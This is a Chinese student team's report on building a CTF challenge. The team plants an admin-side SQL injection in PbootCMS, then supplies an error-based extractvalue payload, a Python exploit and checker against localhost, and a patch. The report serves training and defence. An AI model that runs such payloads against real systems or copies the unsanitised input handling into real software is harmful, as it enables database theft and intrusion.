






# CMY —「创新实践能力团队赛」总结技术报告

## 一、完成任务情况

- [x] 场景设计开发
- [x] 设计漏洞三：后台 sql 注入
  - [x]  漏洞设计
  - [x]  Check 设计
  - [x]  Exp 设计
  - [x]  FixIt

## 二、实验环境

本次实验开发环境和实际项⽬运⾏环境以及 Exp 脚本和 Check 脚本运⾏环境，均基于如下基础环境：

- win11
- VMware® Workstation 16 Pro
- Kali-Linux-2022.2-vmware-amd64

### 开发环境

本次开发 PHP 和 MariaDB 均基于 XAMPP 7.4.27-1 提供

* Apache/2.4.52 (Unix) 
* OpenSSL/1.1.1m 
* PHP/7.4.27 
* mod_perl/2.0.11 
* Perl/v5.32.1
* MariaDB/10.4.2
* PhpStorm/2021.3.3

### 项目运行环境

* Apache/2.4.29 (Ubuntu)
* PHP/7.2.11
* Mysql/5.7.24

### 脚本运行环境

本次实验脚本开发环境以及运行环境均基于如下环境：

- Python 3.10.4
- Visual Studio Code 1.69.2 
  

## 三、场景设计开发

### 系统功能

本系统为`CMS`系统，基于免费开源的 `PbootCMS` 模板，基于模板进行按需设计与取用。

- 网站前台功能

  - 网站首页展示
    - 首页
    * 公司简介
    * 新闻中心
    * 产品中心
    * 服务案例
    * 联系我们
  * 登录/注册
  * 在线留言

- 网站后台管理

  - 登录/退出登录
  - 基础内容管理
    * 站点信息
    * 公司信息
    * 内容栏目管理
  - 文章内容管理
  - 扩展内容管理
    * 留言信息
    * 轮播图片
    * 友情链接
    * 自定义表单

对于一些需要批量管理的还支持批量功能。

其中，网站前台功能中 **在线留言** ，**登录**，网站后台管理中的 **登录/退出登录** ， **文章内容管理** 以及 **扩展内容管理** 等都是适合设计漏洞的地方。

### 网站架构

网站的响应流程如下图所示：



网站的系统架构如下图所示：



### 数据库设计


在模板基础上 **按需取用与添加**

留言信息表结构（后续漏洞利用）：

```mysql
-- 表的结构 `ay_message`
--

DROP TABLE IF EXISTS `ay_message`;
CREATE TABLE `ay_message` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT COMMENT '编号',
  `acode` varchar(20) NOT NULL COMMENT '区域编码',
  `contacts` varchar(10) DEFAULT NULL COMMENT '联系人',
  `mobile` varchar(12) DEFAULT NULL COMMENT '联系电话',
  `content` varchar(500) DEFAULT NULL COMMENT '留言内容',
  `user_ip` varchar(11) NOT NULL DEFAULT '0' COMMENT 'IP地址',
  `user_os` varchar(30) NOT NULL COMMENT '操作系统',
  `user_bs` varchar(30) NOT NULL COMMENT '浏览器',
  `recontent` varchar(500) NOT NULL COMMENT '回复内容',
  `status` char(1) NOT NULL DEFAULT '1' COMMENT '是否前台显示',
  `create_user` varchar(30) NOT NULL COMMENT '创建人员',
  `update_user` varchar(30) NOT NULL COMMENT '更新人员',
  `create_time` datetime NOT NULL COMMENT '创建时间',
  `update_time` datetime NOT NULL COMMENT '更新时间',
  PRIMARY KEY (`id`),
  KEY `ay_message_acode` (`acode`)
) ENGINE=MyISAM AUTO_INCREMENT=63 DEFAULT CHARSET=utf8;
```



`sql` 注入漏洞的 `flag`（新增）

```mysql
-- 表的结构 `ay_aFlag`
--

DROP TABLE IF EXISTS `ay_aFlag`;
CREATE TABLE `ay_aFlag` (
  `flag` char(128) DEFAULT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;

--
-- 转存表中的数据 `ay_aFlag`
--

INSERT INTO `ay_aFlag` (`flag`) VALUES
('flag{thsillllllllllllllsflag}');
```

文章内容表结构（后续漏洞利用）：

```mysql
DROP TABLE IF EXISTS `ay_content`;
CREATE TABLE `ay_content` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT COMMENT '编号',
  `acode` varchar(20) NOT NULL COMMENT '区域',
  `scode` varchar(20) NOT NULL COMMENT '内容栏目',
  `subscode` varchar(20) NOT NULL COMMENT '副栏目',
  `title` varchar(100) NOT NULL COMMENT '标题',
  `titlecolor` varchar(7) NOT NULL COMMENT '标题颜色',
  `subtitle` varchar(100) NOT NULL COMMENT '副标题',
  `filename` varchar(50) NOT NULL COMMENT '自定义文件名',
  `author` varchar(30) NOT NULL COMMENT '作者',
  `source` varchar(30) NOT NULL COMMENT '来源',
  `outlink` varchar(100) NOT NULL COMMENT '外链地址',
  `date` datetime NOT NULL COMMENT '发布日期',
  `ico` varchar(100) NOT NULL COMMENT '缩略图',
  `pics` varchar(1000) NOT NULL COMMENT '多图片',
  `content` mediumtext NOT NULL COMMENT '内容',
  `tags` varchar(500) NOT NULL COMMENT 'tag关键字',
  `enclosure` varchar(100) NOT NULL COMMENT '附件',
  `keywords` varchar(200) NOT NULL COMMENT '关键字',
  `description` varchar(500) NOT NULL COMMENT '描述',
  `sorting` int(10) unsigned NOT NULL DEFAULT 255 COMMENT '内容排序',
  `status` char(1) NOT NULL DEFAULT '1' COMMENT '状态',
  `istop` char(1) NOT NULL DEFAULT '0' COMMENT '是否置顶',
  `isrecommend` char(1) NOT NULL DEFAULT '0' COMMENT '是否推荐',
  `isheadline` char(1) NOT NULL DEFAULT '0' COMMENT '是否头条',
  `visits` int(10) unsigned NOT NULL DEFAULT 0 COMMENT '访问数',
  `likes` int(10) unsigned NOT NULL DEFAULT 0 COMMENT '点赞数',
  `oppose` int(10) unsigned NOT NULL DEFAULT 0 COMMENT '反对数',
  `create_user` varchar(30) NOT NULL COMMENT '创建人员',
  `update_user` varchar(20) NOT NULL COMMENT '更新人员',
  `create_time` datetime NOT NULL COMMENT '创建时间',
  `update_time` datetime NOT NULL COMMENT '更新时间',
  PRIMARY KEY (`id`),
  KEY `ay_content_scode` (`scode`),
  KEY `ay_content_subscode` (`subscode`),
  KEY `ay_content_acode` (`acode`),
  KEY `ay_content_filename` (`filename`),
  KEY `ay_content_date` (`date`),
  KEY `ay_content_sorting` (`sorting`),
  KEY `ay_content_status` (`status`)
) ENGINE=MyISAM AUTO_INCREMENT=58 DEFAULT CHARSET=utf8;
```

用户表结构：

```mysql
-- 表的结构 `ay_user`
--

DROP TABLE IF EXISTS `ay_user`;
CREATE TABLE `ay_user` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT COMMENT '用户编号',
  `ucode` varchar(20) NOT NULL COMMENT '用户编码',
  `username` varchar(30) NOT NULL COMMENT '用户账号',
  `realname` varchar(30) NOT NULL COMMENT '真实名字',
  `password` char(32) NOT NULL COMMENT '用户密码',
  `status` char(1) NOT NULL DEFAULT '1' COMMENT '是否启用',
  `login_count` int(10) unsigned NOT NULL DEFAULT 0 COMMENT '登录次数',
  `last_login_ip` varchar(11) NOT NULL DEFAULT '0' COMMENT '最后登录IP',
  `create_user` varchar(30) NOT NULL COMMENT '添加人员',
  `update_user` varchar(30) NOT NULL COMMENT '更新用户',
  `create_time` datetime NOT NULL COMMENT '创建时间',
  `update_time` datetime NOT NULL COMMENT '更新时间',
  PRIMARY KEY (`id`),
  UNIQUE KEY `ay_user_ucode` (`ucode`),
  KEY `ay_user_username` (`username`)
) ENGINE=MyISAM AUTO_INCREMENT=3 DEFAULT CHARSET=utf8;
```


### API设计

本系统接口包含指定内容详情接口、搜索内容接口、留言提交接口、表单提交接口等，**本项目进行漏洞利用 exp 以及 check 设计时涉及的重要接口** 包含：

##### 漏洞二 —— 涉及的重要接口链接

###### 留言展示接口

**接口功能**

> 展示留言

**URL**

http://localhost/?gbook/

**HTTP请求方式**

> GET

###### 留言提交接口

**接口功能**

> 提交留言

**URL**

<http://127.0.0.1/?message/>

**支持格式**

> JSON

**HTTP请求方式**

> POST

**请求参数**

> | 参数     | 是否必须 | 说明   |
> | :------- | :------- | ------ |
> | contacts | 是       | 联系人 |
> | mobile   | 是       | 手机   |
> | content  | 是       | 内容   |

**返回字段**

> | 返回字段 | 说明                                                  |
> | :------- | :---------------------------------------------------- |
> | code     | 返回结果状态， 1 ：留言提交成功！；0 ：留言提交失败！ |

##### 漏洞三 —— 涉及的重要接口链接

###### 后台登录验证接口

**接口功能**

> 后台登录验证

**URL**

<http://127.0.0.1/admin.php?p=/Index/login>

**支持格式**

> JSON

**HTTP请求方式**

> POST

**请求参数**

> | 参数      | 是否必须 | 说明         |
> | :-------- | :------- | ------------ |
> | username  | 是       | 用户名       |
> | password  | 是       | 密码         |
> | formcheck | 是       | 身份验证标志 |

**返回值**

> {"code":1,"data":"\/admin.php?p=\/Index\/home","rowtotal":1}

**字段解释**

> | 返回字段 | 说明                                        |
> | :------- | :------------------------------------------ |
> | code     | 返回结果状态， 1 ：登录成功；0 ：登录失败。 |

###### 新闻新增接口

**接口功能**

> 提交新增新闻

**URL**

<http://127.0.0.1/admin.php?p=/Content/add/mcode/2>

**支持格式**

> JSON

**HTTP请求方式**

> POST

**请求参数**

> | 参数        | 是否必选 | 说明         |
> | :---------- | :------- | ------------ |
> | scode       | 是       | 内容栏目     |
> | subscode    |          | 副栏目       |
> | title       | 是       | 内容标题     |
> | titlecolor  |          | 标题颜色     |
> | subtitle    |          | 副标题       |
> | filename    |          | 自定义文件名 |
> | author      |          | 作者         |
> | source      |          | 来源         |
> | outlink     |          | 外链地址     |
> | date        |          | 发布日期     |
> | ico         |          | 缩略图       |
> | pics        |          | 多图片       |
> | content     |          | 内容         |
> | formcheck   |          | 验证标识     |
> | enclosure   |          | 附件         |
> | keywords    |          | 关键字       |
> | description |          | 描述         |
> | status      |          | 状态         |
> | tags        |          | 关键字       |

**返回值**

> 新增成功！
>
> 新增失败！

###### 新闻新增接口 (2.0)

**接口功能**

> 新增新闻

**URL**

<http://127.0.0.1/admin.php?p=/Content/index/mcode/2>

**HTTP请求方式**

> GET

###### 新闻展示接口

**接口功能**

> 展示新闻

**URL**

<http://127.0.0.1/?company/>

**HTTP请求方式**

> GET

### pbootcms下载安装环境配置

1. 去 [官网](https://www.pbootcms.com/) 下载 PbootCMS

2. 下载安装运行环境 [phpstudy](https://www.xp.cn/download.html)

3. 解压并运行 `phpstudy.exe` ，如果本机没有下载 `VC9` 的话会提示下载安装 `VC9` ，安装运行即可，然后试试 `Apache` 和 `MySQL` 运行状态是否正常

   

4. 在其他选项菜单-网站根目录里删掉原本带的 `php` 测试文件，将下载好的 `PbootCMS-V3.1.6` 压缩包解压到根目录下面

   

   

   

5. 打开其他选项菜单—— my home page 即可看到网站正常运行

   

6. 进入后台管理系统界面 `admin.php`

   

7. 默认用户名是 `admin` ，密码是 `123456` ，进入后修改密码方可查看后台主页

8. 如果需要部署在服务器上，那么需要到官网先免费获取授权码填写到后台相应位置才能打开网站前台

   在 PbootCMS 官网获取授权码

   

9. 在后台管理系统的全局配置-参数配置里填写授权码

10. 可以看到后台管理系统可以对前台的各种操作进行定义和控制，例如可以新增模型或者是修改模型字段


以上就是整个网站模板的配置使用了，接着就可以在文件中修改源代码来修改功能了。

## 四、漏洞三 —— 后台 sql 注入

### 漏洞设计（ BuildIt ）



由于对  `$content`  过滤不严格导致**可在后台新增文章处进行 `SQL` 注入**：

漏洞在 `\apps\admin\controller\content\ContentController.php` 中的 79-170 行（只截取重要部分）


其中：

```php
$description = mb_substr(strip_tags($_POST['content']), 0, 150);
```

仅对传入的  `content`  参数使用了 `strip_tags` 和 `mb_substr` 过滤，因此 `$content` 存在  `SQL`  注入。

**报错注入** 可以拿到数据库中的flag：

> 如果使用 select (extractvalue(1,(database()))); 在1中查询不到database()的结果，但是因为没有语法错误，所以不会报错。
>
> 用 `concat` 函数拼接一个错误的 Xpath 让数据库报错得到包含查询值的字符串。

 **因此设计 POC 如下**：

```shell
testPOC' or (select extractvalue(1,concat(0x7e,(select group_concat(flag,0x7e) from pbootcms.ay_aFlag)))) or ' 
```

因为漏洞设计在后台，所以要过登录。对数据库（包含用户名密码）的设计如下， `password`  是由原始密码经过 **两次 `MD5` 加密** 得到的：

```python
import random
import string

def generate_random_password(count, length):
    # string.ascii_letters 大小写字母， string.digits 为数字
    characters_long = list(string.ascii_letters + string.digits + "!@#$%^&*()")

    # 打乱字符串序列
    random.shuffle(characters_long)

    # 生成密码个数
    for i in range(int(count)):
        # picking random characters from the list
        password = []
        # 生成密码个数
        for b in range(length):
            password.append(random.choice(characters_long))

        # 打乱密码顺序
        random.shuffle(password)

        # 将列表转换为字符串并打印
        print("".join(password))


def main():
    length = int(input("请输入密码长度: "))
    count = int(input("请输入密码生成个数: "))
    generate_random_password(count, length)


if __name__ == '__main__':
    # 由于MD5模块在python3中被移除
    # 在python3中使用hashlib模块进行md5操作

    import hashlib

    # 待加密信息
    str = '12@aa4./(9Eb9AD)0)7'
    str='5c94a401cb982b435f603765b6cb5306'

    # 创建md5对象
    hl = hashlib.md5()

    # Tips
    # 此处必须声明encode
    # 若写法为hl.update(str)  报错为： Unicode-objects must be encoded before hashing
    hl.update(str.encode(encoding='utf-8'))

    print('MD5加密前为 ：' + str)
    print('MD5加密后为 ：' + hl.hexdigest())
```


考虑到目前情况下无法通过爆破或者注入方法拿到用户名和密码，即便拿到了也无法解密出原密码，所以：

提供给解题人的 **题目线索为：检查一下 MTJAYWE0Li8oOUViOUFEKTApNw== 看看能发现什么吧~**

*线索破解出来得到用户名为 `check` , 将 `check` 用户原密码 `12@aa4./(9Eb9AD)0)7` 进行 base64 加密得到 `MTJAYWE0Li8oOUViOUFEKTApNw==`*

### Exp 设计（Build 阶段）

根据漏洞三的设计，进行 Exp 设计，分为以下几步：

1. 获取 ssrf token 以及 session id，后续登录需要校验

   ```python
   def getformCheck():
       r = requests.get("http://127.0.0.1/admin.php")
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       PbootSystem = r.cookies['PbootSystem']
       return formcheck, PbootSystem
   ```

2. 利用 request 库进行 post 数据，并取回 cookie，为后续步骤所用

   ```python
   def getck():
       check = getformCheck()
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': 'PbootSystem=' + check[1]
       }
       url = 'http://127.0.0.1/admin.php?p=/Index/login'
       data = {
           'username': 'check',
           'password': '12@aa4./(9Eb9AD)0)7',
           'formcheck': check[0]
       }
       r = requests.post(url, data, headers=headers)
       ck = r.cookies['PbootSystem']
       return 'PbootSystem='+ck
   ```

3. 发送 Poc 到指定位置，并返回数据库报错内容

   ```python
   def senExp():
       ck = getck()
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': ck
       }
       r = requests.get("http://localhost/admin.php?p=/Content/index/mcode/2", headers=headers)
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       url = 'http://127.0.0.1/admin.php?p=/Content/add/mcode/2'
       data = {
               "formcheck": formcheck,
               "scode": "3",
               "title": "checkit",
               "tags": "",
               "author": "check",
               "source": "%E6%9C%AC%E7%AB%99",
               "ico": "",
               "upload": "",
               "pics": "",
               "upload": "",
               "subscode": "",
               "titlecolor": "%23333333",
               "subtitle": "",
               "filename": "",
               "outlink": "",
               "date": "2022-07-12+11%3A33%3A26",
               "enclosure": "",
               "upload": "",
               "keywords": "",
               "description": "",
               "status": "1",
               "content": '''testPOC' or (select extractvalue(1,concat(0x7e,(select group_concat(flag,0x7e) from 
               pbootcms.ay_aFlag)))) or ' '''
       }
       r = requests.post(url, data, headers=headers)
       return r.text
   ```

4. 获取 flag

   ```python
   def getflag():
       flagg=senExp()
       flagg = re.findall(r'''~flag{(.+?)}~''', flagg)
       return "flag{"+flagg[0]+"}"
   ```

下面是主函数：

```python
import re
import requests
from bs4 import BeautifulSoup
if __name__ == '__main__':
    print(getflag())
```

### Check 设计

Check 的主要原则是模拟用户正常使用漏洞点的地方。

> 对于漏洞三的 check 需要模拟后台登录，然后再新增文章初进行文章的新增操作，对于文章内容去随机内容，并检查是否新增成功。

该 check 程序主要分为以下几个步骤：

1. 获取 ssrf token 以及 session id，后续登录需要校验

   ```python
   def getformCheck():
       r = requests.get("http://127.0.0.1/admin.php")
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       PbootSystem = r.cookies['PbootSystem']
       return formcheck, PbootSystem
   ```

2. 利用 request 库进行 post 数据，并取回 cookie，为后续步骤所用

   ```python
   def getck():
       check = getformCheck()
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': 'PbootSystem=' + check[1]
       }
       url = 'http://127.0.0.1/admin.php?p=/Index/login'
       data = {
           'username': 'check',
           'password': '12@aa4./(9Eb9AD)0)7',
           'formcheck': check[0]
       }
       r = requests.post(url, data, headers=headers)
       ck = r.cookies['PbootSystem']
       return 'PbootSystem='+ck
   ```

3. 随机内容生成函数

   ```python
   def makeKey():
       random.seed(time)
       alp = 'abcdefghijklmnopqrstuvwxyz'
       key = random.sample(alp,10)
       key="keyyyy-"+"".join(key)+"-keyyyy"
       return key
   ```

4. 模拟发送新增文章请求，内容为随机内容，方便对新增功能校验

   ```python
   def senExp(makeKey):
       ck = getck()
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': ck
       }
       r = requests.get("http://localhost/admin.php?p=/Content/index/mcode/2", headers=headers)
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       url = 'http://127.0.0.1/admin.php?p=/Content/add/mcode/2'
       data = {
               "formcheck": formcheck,
               "scode": "3",
               "title": makeKey,
               "tags": "",
               "author": "check",
               "source": "%E6%9C%AC%E7%AB%99",
               "ico": "",
               "upload": "",
               "pics": "",
               "upload": "",
               "subscode": "",
               "titlecolor": "%23333333",
               "subtitle": "",
               "filename": "",
               "outlink": "",
               "date": "2022-07-07+11%3A33%3A26",
               "enclosure": "",
               "upload": "",
               "keywords": "",
               "description": "",
               "status": "1",
               "content": makeKey
       }
   ```

5. 对新增完的文章进行校验，看是否正确新增

   ```python
   def getKey():
       r = requests.get("http://127.0.0.1/?company/")
       if r.status_code==200:
           flagg = re.findall(r'''keyyyy-(.+?)-keyyyy''', r.text)
           return "keyyyy-"+flagg[0]+"-keyyyy"
       else:
           return "err"
   ```

下面是主函数

```python
if __name__ == '__main__':
    mkey=makeKey()
    if senExp(mkey)==200:
        if mkey==getKey():
            print("Check Up")
        else:
            print("Check Down")
    else:
        print("Check Down")
```


### 修复漏洞（FixIt）

- Before Fix

  `apps/admin/controller/content/ContentController.php` line 114-117

  ```php
  // 自动提取前一百个字符为描述
  if (! $description && isset($_POST['content'])) {
      $description = mb_substr(strip_tags($_POST['content']), 0, 150);
  }
  ```

- After Fix

  **通过过滤和转义的方式进行过滤危险参数**

  `apps/admin/controller/content/ContentController.php` line 114-117

  ```php
  // 自动提取前一百个字符为描述
  if (! $description && isset($_POST['content'])) {
      $description = escape_string(clear_html_blank(substr_both(strip_tags($_POST['content']), 0, 150)));
  }
  ```

  - `escape_string()`

    ```php
    // 获取转义数据，支持字符串、数组、对象
    function escape_string($string)
    {
        if (! $string)
            return $string;
        if (is_array($string)) { // 数组处理
            foreach ($string as $key => $value) {
                $string[$key] = escape_string($value);
            }
        } elseif (is_object($string)) { // 对象处理
            foreach ($string as $key => $value) {
                $string->$key = escape_string($value);
            }
        } else { // 字符串处理
            $string = htmlspecialchars(trim($string), ENT_QUOTES, 'UTF-8');
            $string = addslashes($string);
        }
        return $string;
    }
    ```

  - `clear_html_blank()`

    ```php
    // 清洗html代码的空白符号
    function clear_html_blank($string)
    {
        $string = str_replace("\r\n", '', $string); // 清除换行符
        $string = str_replace("\n", '', $string); // 清除换行符
        $string = str_replace("\t", '', $string); // 清除制表符
        $string = str_replace('　', '', $string); // 清除大空格
        $string = str_replace('&nbsp;', '', $string); // 清除 &nbsp;
        $string = preg_replace('/\s+/', ' ', $string); // 清除空格
        return $string;
    }
    ```

  - `substr_both()`

    ```php
    // 中英混合的字符串截取,以一个汉字为一个单位长度，英文为半个
    function substr_both($string, $strat, $length)
    {
        $s = 0; // 起始位置
        $i = 0; // 实际Byte计数
        $n = 0; // 字符串长度计数
        $str_length = strlen($string); // 字符串的字节长度
        while (($n < $length) and ($i < $str_length)) {
            $ascnum = Ord(substr($string, $i, 1)); // 得到字符串中第$i位字符的ascii码
            if ($ascnum >= 224) { // 根据UTF-8编码规范，将3个连续的字符计为单个字符
                $i += 3;
                $n ++;
            } elseif ($ascnum >= 192) { // 根据UTF-8编码规范，将2个连续的字符计为单个字符
                $i += 2;
                $n ++;
            } else {
                $i += 1;
                $n += 0.5;
            }
            if ($s == 0 && $strat > 0 && $n >= $strat) {
                $s = $i; // 记录起始位置
            }
        }
        if ($n < $strat) { // 起始位置大于字符串长度
            return;
        }
        return substr($string, $s, $i);
    }
    ```

## 五、遇到问题与解决

在pbootcms下载安装环境配置中，开始使用的是php 5.2.17，不能正常打开网页，如下图所示：


根据提示切换php版本为7.2.10后即可成功打开


## 六、参考链接

- [PbootCMS 开发手册](https://www.pbootcms.com/docs/218.html)
- [从PbootCMS审计到某狗绕过](https://www.freebuf.com/articles/web/253403.html)
- [PHPCMS漏洞分析合集](https://xz.aliyun.com/t/5730)
- [CMS漏洞复现](http://www.bmth666.cn/bmth_blog/2021/07/04/CMS%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/#PbootCMS)
- [sql注入中报错注入函数extractvalue和updatexml函数的原理及使用](https://blog.csdn.net/weixin_46145442/article/details/110254238)

- [kali下对Docker的详细安装_涂寐的博客-CSDN博客_](https://blog.csdn.net/weixin_46318141/article/details/121168812)

- [VC9 32位_phpstudy集成安装环境运行库-php中文网工具下载](https://www.php.cn/xiazai/gongju/1479#elYxjsBoxId)
